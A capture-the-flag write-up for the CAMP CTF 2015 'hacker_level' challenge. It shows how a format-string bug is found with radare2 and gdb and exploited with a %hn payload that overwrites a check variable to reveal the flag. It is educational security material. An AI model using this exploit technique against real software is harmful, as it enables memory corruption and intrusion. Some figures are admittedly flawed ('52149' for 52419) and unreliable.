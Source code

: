 # CAMP CTF 2015: hacker_level-200

**Category:** Pwn
**Points:** 200
**Solves:** 64
**Description:**

> What's your hacker level?
>
> Find out with this nifty little app at challs.campctf.ccc.ac:10118. You can also run your own instance: [hacker_level](hacker_level.tar.gz)

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://ctf-team.vulnhub.com/campctf-2015-hacker-level/> 

### Meta

Vulnerability:

* Format String
* Hardcoded Check Evasion

We are given an unstripped 32bit ELF for i386 Linux:

```bash
$ file hacker_level
hacker_level: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=29288494155b99bcb97cd3af0961c9a34d307be2, not stripped
```

Running the binary:

```bash
$ ./hacker_level
What's your name? hello
Hello, hello
Sorry, you're not leet enough to get the flag :(
Your hacker level is: 0x3076
```

We can input a name, which is then printed back to us.

We open the binary in `radare2` to print available functions:

```bash
[0x080486ea]> aa
[0x080486ea]> afl | sort -k1 | column -t
0x08048440  35   3   sym._init
0x08048480  16   2   sym.imp.setbuf
0x08048490  16   2   sym.imp.printf
0x080484a0  16   2   sym.imp.fgets
0x080484b0  16   2   sym.imp.fclose
0x080484c0  16   2   sym.imp.__stack_chk_fail
0x080484d0  16   2   sym.imp.usleep
0x080484e0  16   2   sym.imp.fread
0x080484f0  16   2   sym.imp.puts
0x08048500  16   2   loc.imp.__gmon_start__
0x08048510  16   2   sym.imp.__libc_start_main
0x08048520  16   2   sym.imp.fopen
0x08048530  476  11  section..text
0x080486ea  34   1   entry0
0x08048710  4    1   sym.__x86.get_pc_thunk.bx
0x08048720  43   4   sym.deregister_tm_clones
0x08048750  53   4   sym.register_tm_clones
0x08048790  30   3   sym.__do_global_dtors_aux
0x080487b0  43   4   sym.frame_dummy
0x080487e0  93   4   sym.__libc_csu_init
0x08048840  2    1   sym.__libc_csu_fini
0x08048844  20   1   sym._fini
```

We see some interesting imported functions, such as `fgets`, `printf` and `fread`, as well as our binarys functions, all cluttered together in `section..text`.

Fortunately, we are given the source code of our binary, [hacker_level.c](./hacker_level.c).

We can see some interesting things:

* In line `21`, we can clearly see our input handed - without modifications - to `printf` as the first parameter. This indicates a Format String Vulnerability.
* In line `24`, we see a check of our `level` object against `0xCCC31337`:
  * If it fails, it just prints that we don't have the correct hacker level
  * If it succeeds, the flag is read from `flag.txt` (if it exists) and printed to us
* The function `calc_level` calculates our level in such a way that we never achieve the correct level in a legal way. Our level is always calculated modulo `0xcafe`.

Having these statements in mind, we know that we have to overwrite `level` to fit `0xCCC31337`.

We first have to find out the address to `level`, e.g. in `radare2`, to overwrite it using a Format String Exploit:

```bash
[0x080486ea]> is | grep level
vaddr=0x0804a04c paddr=0x0000104c ord=044 fwd=NONE sz=4 bind=LOCAL type=OBJECT name=level
```

Now that we have the address to `level` (`0x0804a04c`), we have to find the correct offset to our input.

First, decompile the text section of our binary in `radare2` to find the address to our `printf(name);` call:

```bash
[0x080486ea]> aa
[0x080486ea]> pdf @ section..text 
            ;-- main:
            ;-- main:
            ;-- section_end..plt:
/ (fcn) section..text 476
|           ; var int local_0_1    @ ebp-0x1
[...]
|           0x080485fd      c70424738804.  mov dword [esp], str.Hello_ ; hacker_level.c:20  printf("Hello, "); ; [0x8048873:4]=0x6c6c6548  LEA str.Hello_ ; "Hello, " @ 0x8048873 ; .//hacker_level.c:20  .usleep(150000);
|           0x08048604      e887feffff     call sym.imp.printf
|           0x08048609      891c24         mov dword [esp], ebx        ; hacker_level.c:21  printf(name); ; .//hacker_level.c:21  .printf(\"Hello, \");
|           0x0804860c      e87ffeffff     call sym.imp.printf
|           0x08048611      c7042460ae0a.  mov dword [esp], 0xaae60    ; hacker_level.c:23  usleep(700000); ; [0xaae60:4]=-1 ; .//hacker_level.c:23  
|           0x08048618      e8b3feffff     call sym.imp.usleep
[...]
```

Looks like we have to set a breakpoint in `gdb` at `0x0804860c` to avoid bruteforcing the correct offset for our Format String Exploit:

```bash
gdb-peda$ b *0x0804860c
Breakpoint 1 at 0x804860c: file hacker_level.c, line 21.
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/camp-hackercalc/hacker_level 
What's your name? AAAA%x.%x.%x
Hello, [----------------------------------registers-----------------------------------]
EAX: 0x7 
EBX: 0xffffd4bc ("AAAA%x.%x.%x\n")
ECX: 0x7 
EDX: 0xf7fb9898 --> 0x0 
ESI: 0xffffd4c9 --> 0x0 
EDI: 0xffffd4fc --> 0x0 
EBP: 0xffffd568 --> 0x0 
ESP: 0xffffd4a0 --> 0xffffd4bc ("AAAA%x.%x.%x\n")
EIP: 0x804860c (<main+220>:     call   0x8048490 <printf@plt>)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485fd <main+205>:        mov    DWORD PTR [esp],0x8048873
   0x8048604 <main+212>:        call   0x8048490 <printf@plt>
   0x8048609 <main+217>:        mov    DWORD PTR [esp],ebx
=> 0x804860c <main+220>:        call   0x8048490 <printf@plt>
   0x8048611 <main+225>:        mov    DWORD PTR [esp],0xaae60
   0x8048618 <main+232>:        call   0x80484d0 <usleep@plt>
   0x804861d <main+237>:        add    esp,0x10
   0x8048620 <main+240>:        cmp    DWORD PTR ds:0x804a04c,0xccc31337
Guessed arguments:
arg[0]: 0xffffd4bc ("AAAA%x.%x.%x\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd4a0 --> 0xffffd4bc ("AAAA%x.%x.%x\n")
0004| 0xffffd4a4 --> 0x40 ('@')
0008| 0xffffd4a8 --> 0xf7fb8c20 --> 0xfbad208b 
0012| 0xffffd4ac --> 0xf7ffdaf0 --> 0xf7ffda94 --> 0xf7fbc2b8 --> 0xf7ffd938 --> 0x0 
0016| 0xffffd4b0 --> 0xffffd570 --> 0x80487e0 (<__libc_csu_init>:       push   ebp)
0020| 0xffffd4b4 --> 0xf7fe57aa (cmp    eax,0x0)
0024| 0xffffd4b8 --> 0xffffd520 --> 0xffffffff 
0028| 0xffffd4bc ("AAAA%x.%x.%x\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804860c in main () at hacker_level.c:21
21              printf(name);
gdb-peda$ x/20wx $esp
0xffffd4a0:     0xffffd4bc      0x00000040      0xf7fb8c20      0xf7ffdaf0
0xffffd4b0:     0xffffd570      0xf7fe57aa      0xffffd520      0x41414141
0xffffd4c0:     0x252e7825      0x78252e78      0x0000000a      0x00000000
```

Our stack can be represented as such:

![](./stack.png)

On the left side, we can see what `printf` expects on the stack. On the right side, we see the values and addresses pushed to the stack.

Our input, `AAAA`, is assumed to be the format string and has the address `0xffffd4bc`.

It also is the `7th` word on the stack after the assumed format string - this is our offset.

To confirm:

```bash
$ ./hacker_level
What's your name? AAAA%x.%x.%x.%x.%x.%x.%x
Hello, AAAA40.f7745c20.f778aaf0.ffb684d0.f77727aa.ffb68480.41414141
Sorry, you're not leet enough to get the flag :(
Your hacker level is: 0x8957
```

The seventh `%x` in our test format string `AAAA%x.%x.%x.%x.%x.%x.%x` prints the beginning of our input, `41414141` - sweet!

If we switch `AAAA` with the address `level`, we can use `printf` to store a value into the given address using the format operand `%n`.

`%n` stores the number already printed into a given offset that we can specify by using the `<num>$` prefix. `%7$n` would mean store the number of characters printed into the seventh format string argument.

However, since we don't want to print `0xCCC31337`==`3435336503` characters to store the value, we have to split this operation into two smaller ones:

* Store the value `0x1337`==`4919` into the second half of `level`. Address: `0x0804a04c`
* Store the value `0xCCC3`==`52419` into the first half of `level`. Address: `0x0804a04e`
* Subtract previously printed characters from each value, making the value for the second half `4911` (8 bytes printed for both addresses) and the first half `47500` (`52149`-`4919`)

Our `printf` call will look like that: `printf("formatstring/input", &level_firsthalf, &level_secondhalf);`.

The final exploit is the following:

```bash
$ python -c 'print "\x4c\xa0\x04\x08\x4e\xa0\x04\x08%.4911u%7$hn%.47500u%8$hn"' > in
gdb-peda$ r < in
Starting program: /home/vbox/pwn/tasks/camp-hackercalc/hacker_level < in
What's your name? Hello, LN0000000000[...]
[...]
[...]00000004160457760
The flag is: CAMP15_337deec05ccc63b1168ba3379ae4d65854132604
[Inferior 1 (process 2925) exited normally]
Warning: not running or target is remote
```

The flag is `CAMP15_337deec05ccc63b1168ba3379ae4d65854132604`.

Note that this writeup is not as perfect as others. Please read others and fix issues with this one (e.g. the order of halves and their addresses), if you can!

## Other write-ups and resources

* <https://bannsecurity.com/index.php/home/10-ctf-writeups/32-camp-ctf-2015-hacker-level>
* <https://ctf-team.vulnhub.com/campctf-2015-hacker-level/> 
* <https://nuc13us.wordpress.com/2015/09/04/hacker_level-200-campctf-2015/>
* [Russian](http://reu.org.ua/camp-ctf-2015-hacker-level.html)
* [Japanese](http://www.cnhackmy.com/hacked/CTF/2015/09/12/00001675.html)
* A similar challenge by [exploit-exercises](https://exploit-exercises.com/protostar/format3/) and a [writeup](https://www.mattandreko.com/2012/02/01/exploit-exercises-protostar-format-3/)
